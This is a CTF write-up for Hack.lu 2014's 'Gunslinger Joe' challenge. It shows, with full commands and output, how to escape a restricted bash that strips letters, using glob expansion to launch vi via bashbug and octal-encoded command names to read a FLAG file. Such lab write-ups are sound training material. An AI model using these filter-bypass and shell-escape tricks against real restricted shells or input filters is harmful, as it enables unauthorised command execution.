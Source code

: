 # Hack.lu CTF 2014: Gunslinger Joe’s private Terminal

**Category:** Misc
**Points:** 50
**Author:** cutz
**Description:**

> Gunslinger Joe has a pretty bad memory and always forgets the password for his private terminals! That’s why he always uses his username as password but also makes sure that absolutely no one else who knows his name can interact with his secure terminal. Wouldn’t it be super embarrassing for him to prove him wrong?
>
> SSH: gunslinger_joe@wildwildweb.fluxfingers.net
> PORT: 1403

## Write-up

Let’s connect to the SSH server using `gunslinger_joe` as both the username and password, as stated in the challenge description:

```bash
$ ssh -p 1403 gunslinger_joe@wildwildweb.fluxfingers.net
gunslinger_joe@wildwildweb.fluxfingers.net's password:

           ,'-',
          :-----:
      (''' , - , ''')
      \   ' .  , `  /
       \  '   ^  ? /
        \ `   -  ,'
         `j_ _,'       Gunslinger Joe's
    ,- -`\ \  /f        Private Terminal
  ,-      \_\/_/'-
 ,                 `,
 ,          Joe      ,
      /\          \
|    /             \   ',
,   f  :           :`,  ,
<...\  ,           : ,- '
\,,,,\ ;           : j  '
 \    \            :/^^^^'
  \    \            ; ''':
    \   -,         -`.../
     '    - -,`,--`
      \_._'-- '---:

$ id
$ ls
$ ls -lsa
: -: command not found
```

So we indeed have access to a shell, but something strange is going on… It seems like some characters are being filtered.

Entering `-` reveals that our input is passed as an argument to `bash`:

```bash
$ -
: -
: invalid option
Usage:  bash [GNU long option] [option] ...
  bash [GNU long option] [option] script-file ...
GNU long options:
  --debug
  --debugger
  --dump-po-strings
  --dump-strings
  --help
  --init-file
  --login
  --noediting
  --noprofile
  --norc
  --posix
  --rcfile
  --restricted
  --verbose
  --version
Shell options:
  -ilrsD or -c command or -O shopt_option   (invocation only)
  -abefhkmnptuvxBCHP or -o option
```

Realizing that causing a syntax error results in a helpful error message, I entered all printable ASCII characters to see which ones would be removed:

```
$ () { :;} `() { :;}  !"#$%&\'()*+,-./0123456789:;<=>?@[\\]^_`{|}~'
: -c: line 0: syntax error near unexpected token `)'
: -c: line 0: `() { :;} `() { :;}  !"#$%&\'()*+,-./0123456789:;<=>?@[\\]^_`{|}~''
```

So yeah, all alphabetic characters are removed from the input. Entering `*` reveals that there’s a file named `FLAG` in the current working directory:

```bash
$ *
: ./FLAG: Permission denied
```

Let’s check the root directory:

```bash
$ /*
: /bin: Is a directory
```

Hmm, what would the first item in `/bin/*` be?

```bash
$ /*/*
```

Yay! `/*/*` expands to `/bin/bashbug`, which causes `$EDITOR` — in this case, `vi` — to open. From within `vi` we can easily run arbitrary commands:

```
:!id
uid=1000(gunslinger_joe) gid=1000(gunslinger_joe) groups=1000(gunslinger_joe)

:!cat FLAG
flag{joe_thought_youd_suck_at_bash}
```

The flag is `flag{joe_thought_youd_suck_at_bash}`.

### Alternate solution #1

A shorter solution than the one depicted above, is the following.
Entering the character `.` displayed the error

```bash
$ .
: line 0: .: filename argument required
.: usage: . filename [arguments]
```

That looks like `.` is interpreted as a command. Earlier having figured out that `*` was a working way to iterate all files in the current directory, the following command yielded the right result:

```bash
$ . *
./FLAG: line 1: flag{joe_thought_youd_suck_at_bash}: command not found
```

It’s still an error, but at least it delivers.

### Alternate solution #2

Encode the file name `FLAG` in octal and pass it as an argument to `.`:

```bash
. $'\106\114\101\107'
./FLAG: line 1: flag{joe_thought_youd_suck_at_bash}: command not found
```

### Alternate solution #3

[Encode `cat` in octal](https://www.gnu.org/software/bash/manual/bashref.html#ANSI_002dC-Quoting) and pass the [`????`](https://www.gnu.org/software/bash/manual/bashref.html#Pattern-Matching) wildcard pattern as the argument:

```bash
$ $'\143\141\164' ????
flag{joe_thought_youd_suck_at_bash}
```

This works because `FLAG` is the first (and only) file with a name that is four characters long, within the current working directory.

## Other write-ups and resources

* none yet
